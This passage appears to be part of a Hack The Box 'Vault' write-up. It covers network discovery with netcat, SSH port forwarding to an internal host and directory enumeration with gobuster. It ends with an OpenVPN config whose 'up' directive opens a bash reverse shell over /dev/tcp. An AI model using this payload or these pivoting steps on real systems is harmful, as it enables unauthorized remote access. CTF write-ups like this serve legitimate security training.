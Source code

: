 ```
dave@ubuntu:~/Desktop$ ifconfig
ens33     Link encap:Ethernet  HWaddr 00:50:56:b2:8d:92
          inet addr:10.10.10.109  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feb2:8d92/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb2:8d92/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:484701 errors:0 dropped:0 overruns:0 frame:0
          TX packets:372962 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:61423226 (61.4 MB)  TX bytes:123066398 (123.0 MB)

virbr0    Link encap:Ethernet  HWaddr fe:54:00:17:ab:49
          inet addr:192.168.122.1  Bcast:192.168.122.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:34 errors:0 dropped:0 overruns:0 frame:0
          TX packets:8 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:2296 (2.2 KB)  TX bytes:731 (731.0 B)
```

We can do a poor man's port scan using netcat and find the host `192.168.122.4` with two ports open:

```
dave@ubuntu:~/Desktop$ nc -nv 192.168.122.4 -z 1-1000 2>&1 | grep -v failed
Connection to 192.168.122.4 22 port [tcp/*] succeeded!
Connection to 192.168.122.4 80 port [tcp/*] succeeded!
```

We'll setup SSH port forwarding so we can get to the 2nd host:

```
root@ragingunicorn:~/hackthebox/Machines/Vault# ssh dave@10.10.10.109 -L 80:192.168.122.4:80
```

![](/assets/images/htb-writeup-vault/dnsserver.png)

`dns-config.php` is an invalid link (404).

The 2nd link brings us to a VPN configuration page where we can update an ovpn file.

![](/assets/images/htb-writeup-vault/vpnconfig.png)

With gobuster, we find additional information in `/notes`:

```
# gobuster -q -t 50 -w big.txt -u http://127.0.0.1 -s 200,204,301,302,307
/notes (Status: 200)
```

![](/assets/images/htb-writeup-vault/notes.png)

We can grab `http://127.0.0.1/123.ovpn`:

```
remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/2323 0>&1'"
```
